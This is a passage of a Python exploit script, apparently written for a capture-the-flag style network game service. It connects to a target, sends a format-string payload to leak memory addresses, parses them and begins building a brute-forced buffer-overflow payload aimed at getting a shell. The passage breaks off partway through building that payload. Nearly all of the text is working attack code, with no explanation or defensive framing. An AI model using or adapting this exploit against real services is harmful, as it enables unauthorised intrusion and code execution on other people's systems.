 ```python
successful_socket = None

def recv_until(s, delim, timeout=2):
    """Receive data until a given delimiter is encountered."""
    s.settimeout(timeout)
    data = b""
    try:
        while delim not in data:
            chunk = s.recv(1)
            if not chunk:
                break
            data += chunk
    except Exception:
        pass
    finally:
        s.settimeout(None)
    return data

def parse_leaked_addresses(leak_str):
    """
    Parse the leaked output from the format string.
    Expected format is something like:
      LEAK:0xaddr1:0xaddr2:...
    Returns a list of integer addresses (ignoring any "0x0").
    """
    addrs = re.findall(r"0x[0-9a-fA-F]+", leak_str)
    return [int(addr, 16) for addr in addrs if addr != "0x0"]

def attempt_exploit():
    global successful_socket
    while not shell_found.is_set():
        try:
            s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
            s.connect((HOST, PORT))
        except Exception:
            continue

        try:
            # Stage 1: Wait for initial prompt.
            init_data = recv_until(s, b"Select a mole hole (1-9):")
            # Send format string payload.
            fmt_payload = "LEAK:%p:%p:%p:%p:%p:%p:%p:%p\n"
            s.sendall(fmt_payload.encode())
            leak_data = s.recv(1024).decode(errors="ignore")
        except Exception:
            s.close()
            continue

        try:
            candidates = parse_leaked_addresses(leak_data)
            if not candidates:
                s.close()
                continue

            # Randomly choose a candidate pointer from the leak.
            candidate_ptr = random.choice(candidates)
            # Randomly choose an offset between 104 and 170.
            candidate_offset = random.randint(104, 170)

            # Stage 2: Wait for power-up prompt.
            prompt = recv_until(s, b"Select a power-up (Speed/Strength):")
            # Build the overflow payload:
            #  - Filler of candidate_offset bytes.
```